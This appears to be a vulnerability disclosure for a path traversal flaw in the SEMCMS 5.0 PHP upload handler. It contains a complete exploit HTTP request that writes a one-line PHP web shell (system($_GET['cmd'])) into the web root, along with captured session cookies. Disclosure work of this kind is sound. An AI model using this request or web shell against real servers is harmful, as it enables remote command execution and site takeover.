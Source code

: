 #### 1. Path Traversal Vulnerability (CWE-22)
download_url:https://www.sem-cms.com/TradeCmsdown/php/semcms_php_5.0.zip

**Vulnerability Description:**
The code directly receives user-controlled path parameters through `$Imageurl = $_POST["imageurl"]` without normalization. An attacker can craft a payload like `imageurl=../Images/default/../../` to bypass the preset storage path restrictions and upload files to any directory.

**Key Code Analysis:**

```php
$Imageurl = $_POST["imageurl"];
move_uploaded_file($_FILES["file"]["tmp_name"], $Imageurl.$newname);
```

- **Vulnerability Point:** Direct concatenation of user-controllable `$Imageurl` with the generated filename, without path normalization.
- **Attack Effect:** Using `../../` to achieve directory traversal, such as uploading to the website root directory (the final storage path for the file in this example is `/var/www/html/`).

```
POST /1cj5Mn_Admin/SEMCMS_Upfile.php HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Length: 836
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/1cj5Mn_Admin/SEMCMS_Upload.php?Imageurl=../Images/default/&filed=down_file&filedname=form
Cookie: csrftoken=DC1ie5F1GBasnO3BOxBk7lQ26Ee82lQM; _ga_R1FN4KJKJH=GS1.1.1731064454.3.1.1731065715.0.0.0; _ga=GA1.1.1573617850.1730626906; 4411def9d576984c8d78253236b2a62f__typecho_uid=1; 4411def9d576984c8d78253236b2a62f__typecho_authCode=%24T%24B0Y0sei2u2a444450e82362ddf26030b5474ad3c6; PHPSESSID=va4k07vvgftbnhaomq31s87np1; csrf_cookie_name=d9764bb0c2711f0ce2444be389abeb68; xunruicms_527064877b6d641aa8c19449a87beacc=tmuo9h6ga29i2pel1evd7qh8fs9cpbvg; 527064877b6d641aa8c19449a87beacc_member_uid=1; 527064877b6d641aa8c19449a87beacc_member_cookie=2da9437e47038d33a019eac9432349d7; __tins__4329483=%7B%22sid%22%3A%201739256022241%2C%20%22vd%22%3A%202%2C%20%22expires%22%3A%201739257829169%7D; __51cke__=; __51laig__=2; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="wname"


------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="file"; filename="2.zip"
Content-Type: image/png

GIF89a;
<?php system($_GET['cmd']); ?>
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="imageurl"

../Images/default/../../../
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filed"

down_file
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filedname"

form
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="submit"

Submit
------geckoformboundary7885279eed7384fc280d6248a79275ff--

```

Payload:

```
../Images/default/../../../
```

![image](https://github.com/user-attachments/assets/bc05e238-e7cd-4488-9a59-3edba79e7f41)


Uploaded to the website root directory.

![image](https://github.com/user-attachments/assets/05d61fec-e921-43c9-ac34-a1bed4055b60)
